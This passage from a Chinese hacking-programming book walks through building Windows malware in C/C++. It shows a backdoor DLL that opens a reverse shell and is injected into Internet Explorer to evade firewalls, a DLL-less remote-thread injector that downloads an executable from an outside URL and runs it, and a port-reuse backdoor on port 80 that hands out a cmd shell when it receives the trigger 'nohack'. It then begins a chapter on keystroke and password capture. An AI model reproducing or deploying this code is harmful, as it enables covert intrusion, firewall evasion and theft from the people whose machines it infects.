SOCKET s = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
if (s == INVALID_SOCKET)
{
    printf("socket error\n");
    return 0;
}

sockaddr_in sin;
sin.sin_family = AF_INET;
sin.sin_port = htons(4500);
sin.sin_addr.S_un.S_addr = inet_addr("127.0.0.1");
if (connect(s, (sockaddr *)&sin, sizeof(sin)) == -1)
{
    printf("connect error\n");
    return 0;
}

if (send(s, wMessage, strlen(wMessage), 0) == SOCKET_ERROR)
{
    printf("Send message error\n");
    return 0;
}

cmdshell(s);
return 0;

BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    // DLL被加载到内存时
    case DLL_PROCESS_ATTACH:
    {
        DWORD ThreadId;
        CreateThread(NULL, NULL, DoorThread, NULL, NULL, &ThreadId);
        break;
    }
    default:
        break;
    }
    return TRUE;
}
```

这个后门 DLL 就这样实现了，下面我们来完成注入程序吧。其实在上一节中我们已经完成了注入进程函数，在这里只需要在 `main` 函数中调用它就可以了。我们选择注入哪个程序呢？这里用注入 IE 进程来实现穿墙，因为大家都知道 IE 是用来访问网页的，你想想，哪个管理员会将 IE 进程过滤掉呢？那样岂不是访问不了网页了吗？代码如下：

```cpp
char Path[255];
char DIPath[255];
// 得到 Windows 系统路径
GetSystemDirectory(Path, sizeof(Path));
// 0x00 截断字符，得到盘符
Path[3] = 0x00;
// 得到 IE 带路径文件名
strcat(Path, "\\Program Files\\Internet Explorer\\iexplore.exe");
// 启动 IE，为了防止系统中没有 IE 进程
WinExec(Path, SW_HIDE);
// 暂停两秒，等待 IE 启动
Sleep(2000);
// 得到 IE 进程
DWORD Pid = GetProcessID("iexplore.exe");
// 得到程序自身路径
GetCurrentDirectory(sizeof(DIPath), DIPath);
// 得到 DLL 带路径文件名
strcat(DIPath, "\\BackDoorDll.dll");
// 注入 IE 进程
InjectDll(DIPath, Pid);
```

## 编程小贴士：Sleep 和 WinExec 函数

先来说下 Sleep 函数，此函数可以让程序暂停指定的时间。它只有一个参数，此参数表示要暂停的毫秒数。下面再来看看 WinExec 函数，此函数用于运行指定的程序，它有两个参数，第一个参数是指向要运行程序带路径文件名的字符串指针；第二个参数定义了以什么形式启动程序的常数值，这里介绍常用的两个：SW_HIDE：隐藏窗口；SW_SHOW：显示原始窗口大小。

最后我们来看一下执行效果图，如图2所示，现在我们的后门就有了强悍的穿墙能力和进程隐藏性了。



#### 3.1.3 远程线程技术的发展

任何一种黑客技术，都会在时间的荡涤中不断地发展和强大，当然远程线程技术也不例外。

在以上两小节中的远程线程技术，由于调用 LoadLibrary 函数加载 DLL 文件，所以当远程线程启动后，在目标进程的模块中可以发现我们后门的 DLL 文件，如图3所示。

那么到底怎么样才能使这个 DLL 在进程模块中消失呢？答案非常简单，不用 DLL 文件此模块不就消失了吗？这样不但没有了进程模块中的 DLL，连文件都没了！当然，假如使用 DLL，想让它在进程模块中消失也是可以的。我这里只简单地讲述下，有兴趣的朋友可以自己去实验下。

首先要在自身进程中装载 DLL 文件，返回装载入内存的首地址，并且还需要得到此 DLL 模块在进程中的大小和后门线程函数的地址（此线程函数地址是 DLL 文件中的一个导出函数），在目标进程中申请相同大小的内存空间，得到首地址，并把自身进程空间中 DLL 模块的数据复制到目标进程申请的内存空间中，根据自身进程中的模块的首地址、线程函数地址和目标进程中申请的内存空间的首地址，计算出目标进程中线程函数的地址，最后根据此地址，创建并启动远程线程即可。



下面我们就来学习不用 DLL 文件实现进程注入的方法。在第一节中我们讲过，CreateRemoteThread 函数的 lpStartAddress 参数所指向的线程函数地址并不是自身进程中的函数地址，而是要在目标进程中的函数地址。在第一小节中我们用 LoadLibrary 加载 DLL 的方法绕过了这个问题。

那么现在就来正面解决这个问题，我们直接把木马函数写入到目标进程的内存空间，然后用 CreateRemoteThread 函数调用。说起来轻巧但是做起来还是有一定困难的。由于在木马函数中需要调用一些 API 函数，那么怎么定位到这些 API 函数的地址呢？还有一些作为 API 函数参数的字符串必须要写入到目标进程的内存空间中，这又要怎么实现呢？下面我们就来解决这两个问题。

首先是第一个问题，我们可以先在注入程序中定位好要用到的 API 函数的地址，然后写入目标进程内存就可以了。第二个问题的解决相对比较简单，只需要把要用到的字符串写入目标进程内存即可。综合两个问题的解决方案，我们只需要定义一个结构，在此结构中存入要用到的 API 函数地址和字符串，然后把这个结构写入内存，得到写入位置的内存起始地址即可。

接下去还需要把实现后门功能的线程函数写入到目标进程的内存空间，大家注意到没有，WriteProcessMemory 函数的 nSize 参数指向的是写入内存的字节数，既然要写入内存，那么怎么定位线程函数的大小呢？这里我们用一个懒办法，把这个值设得很大，只要写入的实际数据的字节数不超过这个值就可以了。这里以一个插入 IE 进程的下载者为例来对这个方法进行说明。

其实下载文件要调用的函数只有一个，在第二章中就已经学习过了，就是 URLDownloadToFile 函数，这个函数是 urlmon.dll 中的导出函数。当文件下载完成，就需要运行下载的文件，这里调用 WinExec 函数即可，它是 kernel32.dll 中的导出函数。

下面就是保存 API 函数地址和字符串的结构：

```cpp
typedef struct _RemotePara
{
    // 下载文件的 url
    char Url[255];
    // 保存文件的路径
    char FilePath[255];
    // URLDownloadToFile 函数的地址
    DWORD DownAddr;
    // WinExec 函数的地址
    DWORD ExecAddr;
} RemotePara;
```

这个结构包含了所有要用到的信息，下面再来学习下下载文件的线程函数：

```cpp
DWORD __stdcall ThreadProc(RemotePara *lpPara)
{
    // 定义 WinExec 函数的原型
    typedef UINT (__stdcall *MWinExec)(LPCSTR lpCmdLine, UINT uCmdShow);
    // 定义 UrlDownloadToFile 函数的原型
    typedef HRESULT (__stdcall *MUrl_DownloadToFile)(LPUNKNOWN pCaller,
        LPCSTR szUrl, LPCSTR szFileName,
        DWORD dwReserved, LPBINDSTATUSCALLBACK lpfnCB);

    MUrl_DownloadToFile myUrlDownloadToFile;
    // 从结构中得到 URLDownloadToFile 函数的地址
    myUrlDownloadToFile = (MUrl_DownloadToFile)lpPara->DownAddr;
    // 调用函数下载文件
    myUrlDownloadToFile(0, lpPara->Url, lpPara->FilePath, 0, 0);

    MWinExec myWinExec;
    // 从结构中得到 WinExec 函数的地址
    myWinExec = (MWinExec)lpPara->ExecAddr;
    // 调用函数运行下载的文件
    myWinExec(lpPara->FilePath, 1);

    return 0;
}
```

下面就剩下把数据写入内存和创建远程线程的函数了，主体代码具体如下：

```cpp
BOOL Inject(const DWORD dwRemoteProcessId)
{
    // 这里省略：提升权限打开进程

    // 申请内存空间
    void *pRemoteThread = VirtualAllocEx(hWnd, 0,
        1024 * 4, MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);
    if (!pRemoteThread)
    {
        printf("VirtualAllocEx failed");
        return FALSE;
    }

    // 把远程线程那个函数写入内存
    if (!WriteProcessMemory(hWnd, pRemoteThread, &ThreadProc, 1024 * 4, 0))
    {
        printf("WriteProcessMemory failed");
        return FALSE;
    }

    // 填写 RemotePara 结构
    RemotePara myRemotePara;
    // 清空 myRemotePara 变量
    ZeroMemory(&myRemotePara, sizeof(RemotePara));

    // 加载 DLL 文件
    HINSTANCE hUrlmon = LoadLibrary("urlmon.dll");
    HINSTANCE kernel = LoadLibrary("Kernel32.dll");

    // 得到相应的函数地址
    myRemotePara.DownAddr = (DWORD)GetProcAddress(hUrlmon, "URLDownloadToFileA");
    // ... 其余代码略
}
```

```cpp
myRemotePara.ExecAddr = (DWORD)GetProcAddress(kernel, "WinExec");
char urlfile[255];
strcpy(urlfile, "http://www.snow1987.cn/a.exe");
strcpy(myRemotePara.Url, urlfile);
strcpy(myRemotePara.FilePath, "c:\\a.exe");

// 申请内存空间
RemotePara *pRemotePara = (RemotePara *)
VirtualAllocEx(hWnd, 0, sizeof(RemotePara),
MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (!pRemotePara)
{
    printf("VirtualAllocEx failed");
    return FALSE;
}

// 写入内存
if (!WriteProcessMemory(hWnd, pRemotePara,
&myRemotePara, sizeof(myRemotePara), 0))
{
    printf("WriteProcessMemory failed");
    return FALSE;
}

// 建立线程
HANDLE hThread = CreateRemoteThread(hWnd, 0, 0,
(LPTHREAD_START_ROUTINE)pRemoteThread, pRemotePara, 0, 0);
if (!hThread)
{
    printf("CreateRemoteThread failed");
    return FALSE;
}
return true;
}
```

此程序源码在光盘“第二章\Inject\NoDll”下。

### 3.2 端口复用后门

上一节已经讲了用远程线程技术来穿越防火墙，但是这个技术只能应用于反向连接后门，通过插入进程以其他进程的名义来访问网络。

但是如果你是在内网，那不是没办法接收后门的反向连接了吗？也就没办法使用这个反向后门了。这要怎样才能让正向连接后门也能穿越防火墙呢？这一小节就带大家一起用端口复用技术来解决这个问题。

> 编程加油站  
> **什么是端口复用？**  
> 端口复用，顾名思义就是重复地使用某个端口。何为重复呢？大家都知道，一般来说一个端口只能给一个程序所占用，但是这只是一般情况，假如对套接字设置了端口复用选项，那么此套接字就可以绑定在已经被占用的端口上，而且这并没有明确权限的区分，一般来说后绑定的程序权限大，也就是说后绑定的程序可以接收通过这个端口的所有数据，而前绑定的程序收不到任何数据。

#### 3.2.1 后门思路

我们最初的想法是复用某个防火墙允许连接的端口，由于后绑定的程序可以接收通过这个端口的所有数据，也就是我们的后门可以接收到通过这个端口的所有数据，但是这样之后就会有大量无用数据被后门接收，导致无法区分哪些是我们传输的命令，因此我们就需要对收到的数据进行判断。

为了方便我们把接收到的数据和特征字符比较，假如相同就启动后门函数，后门函数启动后，这个客户端套接字接收到的数据就直接传递给后门函数，不再和特征字符比较。

这个思路确实是可行的，但是仔细想想过于霸道，后门程序复用了原先服务端口，导致了原先服务接收不到任何信息。比如以 WEB 服务为例，当我们的后门复用了 80 端口之后，其他客户将访问不了这个服务器上的网站。这样的后门在服务器上运行几分钟是没有问题的，但是时间一长就会被管理员轻易发现。

**那么我们怎么来解决这个问题呢？在具体解决之前先来了解一些概念：**

- 1. 其实每台电脑上都有一个回环 IP 地址：`127.0.0.1`。也就是说一台服务器上至少有两个 IP 地址，一个是公网 IP，一个是回环 IP 地址。
- 2. 在调用 `bind` 函数，实现套接字和本地地址绑定前，要设置 `sockaddr_in` 结构，在这个结构中的 `sin_addr.S_un.S_addr` 字段为设置要绑定的 IP 地址，在上面的章节中赋给这个成员的值都是 `INADDR_ANY`，本地所有 IP。

有了上面这些基础，要解决这个问题也就不难了。我们的后门可以只对公网 IP 的某个端口复用，然后接收客户端连接，判断接收到的数据。假如和特征字符串相同，调用后门函数；不相同后门就和 `127.0.0.1` 的相同端口建立连接，把数据转发给 `127.0.0.1`。当后门收到由 `127.0.0.1` 发来的数据时，就把数据转发给客户，这时候我们的后门就相当于是一个数据转发的中转站。



具体过程如图 4 所示，图中的虚线表示数据传输的方向。

#### 3.2.2 具体编程实现

到这里，大家对端口复用后门的整体构架应该都有所了解了，那么下面我们就可以从编程的角度来对其进行讲解了。

要实现端口复用也就是要把套接字绑定在已经被其他服务占用的端口上，直接用 `bind` 函数绑定是不行的，我们必须在调用 `bind` 函数之前先调用 `setsockopt` 函数设置套接字，使其可以复用端口。此函数原型如下：

```cpp
int setsockopt(
    SOCKET s,
    int level,
    int optname,
    const char FAR *optval,
    int optlen
);
```

此函数用来设置和 socket 相关的一些设置。s 参数指向了一个要对其进行设置的套接字句柄。level 参数指向这个设置是处于 socket 的哪一层，可以是以下值：SOL_SOCKET、IPPROTO_TCP、NSPROTO_IPX。optname 参数指向了要设置的属性。optval 参数指向要设置的属性值，有的属性是一个 bool，有的是 int 或者结构。optlen 参数指向了属性值的长度。返回 SOCKET_ERROR 表示函数调用失败，否则成功。这里具体调用如下：

```cpp
int val = 1;
if (setsockopt(sListen, SOL_SOCKET, SO_REUSEADDR, (char *)&val, sizeof(val)) != 0)
{
    printf("setsockopt error\n");
    return 0;
}
```

学会了 setsockopt 函数之后，我们来看看端口复用后的具体实现过程，如图5所示。从图5中可以看到，在线程函数之前，唯一的难点就是把套接字设置成可以重复绑定端口，这个在前面已经实现，这里以复用 80 端口为例，下面我们直接来看代码：



```cpp
int main(int argc, char *argv[])
{
    char szHost[256];
    sockaddr_in saddr;
    sockaddr_in caddr;
    SOCKET sListen;
    SOCKET sClient[1000];
    WSADATA wsaData;
    WORD sockVersion = MAKEWORD(2, 2);

    // 加载 winsock 库
    if (WSAStartup(sockVersion, &wsaData) != 0)
        return 0;

    // 得到本地的三块网卡的 IP
    gethostname(szHost, 256);
    hostent *pHost = gethostbyname(szHost);
    in_addr addr;
    memcpy(&addr.S_un.S_addr, pHost->h_addr_list[0], pHost->h_length);
    saddr.sin_family = AF_INET;
    // 设置要绑定的 IP 地址，公网 IP
    saddr.sin_addr.S_un.S_addr = addr.S_un.S_addr;
    saddr.sin_port = htons(80);

    // 建立套接字
    sListen = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (sListen == SOCKET_ERROR)
    {
        printf("WSASocket error \n");
        return 0;
    }

    int val = 1;
    // 设置连接字为可以重复绑定端口
    if (setsockopt(sListen, SOL_SOCKET, SO_REUSEADDR, (char *)&val, sizeof(val)) != 0)
    {
        printf("setsockopt error\n");
        return 0;
    }

    // 绑定连接字到公网 IP 上
    if (bind(sListen, (SOCKADDR *)&saddr, sizeof(saddr)) == SOCKET_ERROR)
    {
        printf("bind error \n");
        return 0;
    }

    // 侦听连接字
    listen(sListen, 1000);
    DWORD ThreadId;
    HANDLE hThread;
    for (int i = 0; i < 1000; i++)
    {
        int Addrsize = sizeof(caddr);
        // 接受新连接
        sClient[i] = accept(sListen, (struct sockaddr *)&caddr, &Addrsize);
        if (sClient[i] != INVALID_SOCKET)
        {
            // 开启新线程
            hThread = CreateThread(NULL, 0, ThreadProc,
                (LPVOID)sClient[i], 0, &ThreadId);
            if (hThread == NULL)
            {
                printf("CreateThread error!");
                break;
            }
        }
        CloseHandle(hThread);
    }
    closesocket(sListen);
    WSACleanup();
    return 0;
}
```

那么接下去就只剩下线程函数了，从图5中可以看出线程函数的第一步，需要设置接收和发送数据中的超时时间。为什么要进行这个设置呢？前面已经说过了，我们的后门在没有收到特征字符串时，就相当于是一个数据发送的中转，这就会使整个收发过程比没有中转的时候慢一些。

要设置收发数据的超时，还要用到 `setsockopt` 函数，具体代码如下：

```c
val = 100;
if (setsockopt(sNative, SOL_SOCKET, SO_RCVTIMEO,
    (char *)&val, sizeof(val)) == 0)
{
    printf("setsockopt sNative error.\n");
    return 0;
}

if (setsockopt(sClient, SOL_SOCKET, SO_RCVTIMEO,
    (char *)&val, sizeof(val)) == 0)
{
    printf("setsockopt sClient failed.\n");
    return 0;
}
```

`SO_RCVTIMEO` 表示对收发数据超时进行设置，这里的 `val` 表示设置超时毫秒数：100 毫秒。`sClient` 套接字指向客户，`sNative` 套接字指向 127.0.0.1。最后我们来看一下数据转发和判断特征字符串部分的代码：

```c
while (TRUE)
{
    // 接收从客户来的数据
    ret = recv(sClient, buff, 4096, 0);
    if (ret > 0)
    {
        // 判断特征字符串，相同则调用后门函数
        if (strncmp(buff, "nohack", 6) == 0)
        {
            cmdshell(sClient);
            break;
        }

        // 发送给 127.0.0.1
        send(sNative, buff, ret, 0);
    }
    else if (ret == SOCKET_ERROR)
        break;

    // 接收从 127.0.0.1 来的数据
    ret = recv(sNative, buff, 4096, 0);
    if (ret > 0)
    {
        // 发送给客户
        send(sClient, buff, ret, 0);
    }
    else if (ret == SOCKET_ERROR)
        break;
}
```

从代码中可以看出，当收到的数据前六个字符为“nohack”时，就调用后门函数，这里的后门函数我用了一个简单的“零管道”`cmdshell`。



图 6

到这里我们的端口复用后门就完成了，来看看执行效果吧！首先运行后门，然后用 `nc` 连接 80 端口，连上后输入 `nohack`，回车后如图 6 所示。

## Hack 编程实例精讲Ⅱ代　精通黑客编程

## 黑客截获技术

- 基于钩子的密码截获技术
- 非钩子密码截获技术

## 第四章 密码截获技术

### 4.1 基于钩子的密码截获技术

前置知识：C/C++基础、远程线程技术、DLL编程  
难度：中等  
编译环境：VC++6.0  
测试环境：Windows XP

键盘记录是一个非常古老的技术，其实在 DOS 时代就已经存在。在 DOS 和 Win 9x 操作系统中要截获某种功能，可以用获取中断的办法来实现，比如要实现键盘记录，可以使用 9 号中断调用。由于无论是驱动程序还是应用程序都可以这样操作，所以就留下了极大的安全隐患。

而在 Windows 2000 及以后的操作系统中就不同了，Windows 采用了保护模式，在保护模式下的中断描述符表是受系统保护的，应用程序是不可能再通过修改中断向量来截获系统中断了。但是，Windows 却把一些系统底层调用封装在 API 函数中了，通过这些编程接口，用户就可以受限制地使用一些系统调用了，这些接口就是实现钩子编程的 API 函数。

> **编程加工：什么是钩子？**  
> 钩子（HOOK）是 Windows 消息处理机制中的一个监视点。应用程序可以在这里安装一个子程序（钩子函数），以监视指定窗口的消息，所监视的窗口可以是自身的也可以是其他进程创建的。当消息到达后，在目标程序窗口处理函数之前，钩子函数可以实现对消息进行截获并处理。

在更深一步了解钩子之前，我们必须先来学习下 Windows 消息处理机制。Windows 的驱动方式是事件驱动。所谓事件驱动，简单地说就是你点什么按钮，程序即执行什么操作。当然事件不仅局限于此，任何一次鼠标的移动、键盘的输入都可以看成是一个事件；当一个事件发生后相应的程序就会执行有关的代码。比如当你在一个程序中点击“退出”按钮的时候，程序就响应这个单击事件，执行退出程序的代码。

那么当发生一个事件之后，程序又是怎么知道产生了这个事件的呢？这就要靠 Windows 消息机制了。当系统每次检测到一个事件时就会给程序发送一个相应的消息，当程序接收到这个消息后就知道发生了什么事件，然后就执行相应的代码。



事件的产生和处理的过程如图 1 所示。下面我们来具体了解一个消息的基本组成。一个消息由一个消息名称（UINT）和两个参数 WPARAM 与 LPARAM 组成。wParam 和 lParam 参数因消息的不同，所代表的意思也不同。

讲了这些基础之后，我们再回到正题。上面已经说了钩子（HOOK）是 Windows 消息处理机制中的一个监视点，它既然作为一个监视点，那么它是怎么实现监视的呢？每个钩子都有一个钩子函数，程序可以通过相应的 API 把这个函数挂入系统。当特定的消息发出后，一般在没有到达目标窗口之前（当然有些钩子是到达了窗口之后），系统先把这个消息传给钩子函数处理，也就是钩子函数先得到这个消息的控制权，这时候钩子函数可以对这个消息进行一些修改，当然也可以不做任何处理地传递给下一个钩子处理函数。当所有的钩子处理函数处理完这个消息后，系统才把它传递给目标应用程序处理。



整个过程如图 2 所示，与图 1 比较就多了第三个环节。有了上面这些基础，接下去我们就可以从编程的角度来学习钩子了。下面就结合键盘记录程序来对钩子进行讲解。

